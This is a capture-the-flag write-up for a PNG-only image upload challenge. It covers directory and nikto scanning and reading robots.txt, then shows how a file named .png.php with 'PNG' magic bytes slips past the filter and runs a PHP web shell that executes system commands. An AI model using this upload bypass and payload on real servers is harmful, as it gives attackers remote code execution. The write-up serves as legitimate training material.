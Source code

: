 # Trickster #

## Description ##

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge
instance.

## Solution ##

Dirbuster finds

    Dir found: / - 200
    File found: /index.php - 200
    Dir found: /icons/ - 403
    Dir found: /uploads/ - 403
    File found: /uploads - 301
    Dir found: /icons/small/ - 403
    File found: /icons/small - 301
	
`nikto` finds

    + /robots.txt: Entry '/instructions.txt' is returned a
	non-forbidden or redirect HTTP code (200). See:
	https://portswigger.net/kb/issues/00600600_robots-txt-file 
    + /robots.txt: contains 2 entries which should be manually
      viewed. See:
      https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
	  
Check the `robots.txt`:

    User-agent: *
    Disallow: /instructions.txt
    Disallow: /uploads/
	
Get the `instructions.txt`

    Let's create a web app for PNG Images processing.
    It needs to:
    Allow users to upload PNG images
    	look for ".png" extension in the submitted files
    	make sure the magic bytes match (not sure what this is exactly but
    	wikipedia says that the first few bytes contain 'PNG' in
    	hexadecimal: "50 4E 47" )  
    after validation, store the uploaded files so that the admin can
    retrieve them later and do the necessary processing.

Construct a series of files with extension `.png.php` and contents
such as

``` php
PNG

<?php 
        phpinfo(); 
        system('ls ..');
?>
```

This gives a listing of the files in the webroot:

	HFQWKODGMIYTO.txt index.php instructions.txt robots.txt uploads 
	
The file HFQWKODGMIYTO.txt contains the flag.
